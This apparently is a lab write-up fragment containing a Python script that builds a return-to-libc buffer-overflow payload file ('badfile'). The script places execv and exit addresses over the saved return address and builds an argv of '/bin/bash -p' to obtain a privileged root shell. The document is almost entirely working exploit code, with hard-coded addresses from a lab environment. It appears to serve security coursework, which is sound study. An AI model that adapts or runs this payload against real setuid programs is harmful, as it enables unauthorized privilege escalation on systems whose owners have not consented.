 ![a](screenshots/badfile.png)

### Python Code
```python
# important addresses:
buffer_addr = 0xffffcebd
ebp = 0xffffced8
execv_addr = 0xf7e9a4b0  
exit_addr = 0xf7e05f80  
input_addr = 0xffffcef0


# Fill content with non-zero values
content = bytearray(0xaa for i in range(160))

argv_pos = 64
bin_bash_pos = 96
dash_p_pos = 112

Y = ebp -buffer_addr + 4
Z = ebp - buffer_addr + 8
X = ebp - buffer_addr + 12
T = ebp - buffer_addr + 16

content[Y:Y+4] = (execv_addr).to_bytes(4,byteorder='little')
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')
content[X:X+4] = (input_addr+ bin_bash_pos).to_bytes(4,byteorder='little')
content[T:T+4] = (input_addr + argv_pos).to_bytes(4,byteorder='little')
content[T+4:T+5] = (0).to_bytes(1,byteorder='little')


# argv array which is [pointer_to_bin_bash,pointer_to_dash_p, NULL]
content[argv_pos:argv_pos+4] = (input_addr + bin_bash_pos).to_bytes(4,byteorder='little')
content[argv_pos+4:argv_pos+8] = (input_addr + dash_p_pos).to_bytes(4,byteorder='little')
content[argv_pos+8:argv_pos+12] = (0).to_bytes(4,byteorder='little')

# putting the actual strings in the buffer:
content[bin_bash_pos: bin_bash_pos + 10] = "/bin/bash\0".encode('latin-1')
content[dash_p_pos: dash_p_pos + 3] = "-p\0".encode('latin-1')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
